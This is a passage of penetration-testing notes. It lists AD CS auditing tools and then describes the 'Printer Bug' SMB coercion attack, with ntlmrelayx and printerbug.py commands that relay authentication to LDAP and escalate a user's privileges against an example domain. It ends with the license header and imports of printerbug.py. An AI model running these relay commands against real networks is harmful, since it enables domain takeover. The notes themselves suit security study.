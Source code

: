 ## Defense

Auditing: 
"PowerShell toolkit for auditing Active Directory Certificate Services (AD CS)." 
* PSPKIAudit -<br />[https://github.com/GhostPack/PSPKIAudit](https://github.com/GhostPack/PSPKIAudit)
    Specterops based the above tool on PSPKI tool created by PKISolutions. Description: "This module is intended to simplify various PKI and Active Directory Certificate Services management tasks by using automation with Windows PowerShell." -<br />[https://github.com/PKISolutions/PSPKI](https://github.com/PKISolutions/PSPKI)
* Remote Server Administration Tools (RSAT) -<br />https://docs.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools

# Printer Bug

* MITRE ATT&CK -<br />[https://attack.mitre.org/techniques/T1557/001/](https://attack.mitre.org/techniques/T1557/001/)
- https://github.com/dirkjanm/krbrelayx
- tricks system into connecting to attacker via SMB
- example with Exchange server:

```
# start ntlmrelayx with the --remove-mic flag
$ ntlmrelayx.py --remove-mic --escalate-user elliot -t ldap://dc01.evilcorp.local -smb2support
# trigger printerbug.py
$ python printerbug.py evilcorp.local/bob@exch2013.evilcorp.local <attacker_ip>
# 
```

printerbug.py
```
#!/usr/bin/env python
####################
#
# Copyright (c) 2019 Dirk-jan Mollema (@_dirkjan)
#
# Permission is hereby granted, free of charge, to any person obtaining a copy
# of this software and associated documentation files (the "Software"), to deal
# in the Software without restriction, including without limitation the rights
# to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
# copies of the Software, and to permit persons to whom the Software is
# furnished to do so, subject to the following conditions:
#
# The above copyright notice and this permission notice shall be included in all
# copies or substantial portions of the Software.
#
# THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
# IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
# FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
# AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
# LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
# OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
# SOFTWARE.
#
# Triggers RPC call using SpoolService bug
# Credit for original POC goes to @tifkin_
#
# Author:
#  Dirk-jan Mollema (@_dirkjan)
#
####################
import sys
import logging
import argparse
```